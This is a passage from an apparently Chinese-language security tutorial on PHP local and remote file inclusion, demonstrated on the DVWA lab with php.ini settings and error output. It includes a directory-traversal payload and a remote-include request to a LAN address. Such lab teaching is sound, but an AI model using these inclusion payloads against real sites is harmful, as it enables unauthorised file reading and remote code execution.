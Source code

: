 这个漏洞不受`allow_url_fopen = On`和`allow_url_include = On`这两个的影响。

比如这里我在php.ini中把它们改成off，然后重启服务器：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e78dc4c81ab5f1de1cb6222b15b2b12619fda697.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-e78dc4c81ab5f1de1cb6222b15b2b12619fda697.png)

访问`?page=../../../phpinfo.php`，依然可以成功解析phpinfo

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6d05a23aac7d4f4751bb3cd57f15290638dc6fe7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6d05a23aac7d4f4751bb3cd57f15290638dc6fe7.png)

### RFI(Remote File Inclusion)漏洞

远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害性会很大。  
但RFI的利用条件较为苛刻，需要php.ini中进行配置

1. `allow_url_fopen = On`
2. `allow_url_include = On`

两个配置选项均需要为On，才能远程包含文件成功。

比如这里我在php.ini中把它们改成off，然后重启服务器：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71daf3c21731d79adedd1dc26103c3912b99e8a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71daf3c21731d79adedd1dc26103c3912b99e8a5.png)

访问`?page=http://192.168.1.4`，会报错：

```php
Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_fopen=0 in D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\index.php on line 36

Warning: include(http://192.168.1.4): failed to open stream: no suitable wrapper could be found in D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\index.php on line 36

Warning: include(): Failed opening 'http://192.168.1.4' for inclusion (include_path='.;C:\php\pear;../../external/phpids/0.6/lib/') in D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\fi\index.php on line 36
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c68a3001081815fb90725e511c9cd17c2c92e53a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c68a3001081815fb90725e511c9cd17c2c92e53a.png)

两个配置选项都改回来变成on，再重启服务器，远程文件包含便成功了

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-23c31b93da10fc7862d7fe4c83d1182d8b7dcfa4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-23c31b93da10fc7862d7fe4c83d1182d8b7dcfa4.png)

要查看的敏感文件的绝对路径
-------------

这篇文章更加详细：[https://blog.csdn.net/weixin\_50464560/article/d](https://blog.csdn.net/weixin_50464560/article/d) etails/119063335
